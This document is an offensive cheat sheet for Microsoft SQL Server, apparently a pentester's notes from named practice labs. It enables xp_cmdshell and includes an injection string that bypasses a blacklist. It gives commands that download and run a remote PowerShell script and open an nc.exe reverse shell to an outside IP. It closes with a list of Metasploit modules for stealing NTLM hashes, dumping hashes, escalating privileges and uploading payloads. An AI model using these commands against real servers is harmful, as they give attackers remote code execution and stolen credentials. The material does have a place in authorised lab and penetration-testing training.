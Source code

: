 ### xp_cmdshell

after have creds
git py exploit,https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py

**lab-ralph, pg-Meathead**

```bash
sqsh -S <IP> -U <Username> -P <Password> -D <Database>


#this turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#this enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'

# Bypass blackisted "EXEC xp_cmdshell"
‘; DECLARE @x AS VARCHAR(100)=’xp_cmdshell’; EXEC @x ‘ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net’ —

# RCE
>EXEC master..xp_cmdshell 'whoami'
>go

## powershell rce
xp_cmdshell "powershell.exe -exec bypass IEX(New-Object System.Net.Webclient).DownloadString('http://192.168.119.196/powercat.ps1')"

## smb share nc rce, no need to save file on target
xp_cmdshell '\\192.168.49.79\share\nc.exe -e cmd.exe 192.168.49.79 1221';
```

### msf
```bash
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload
```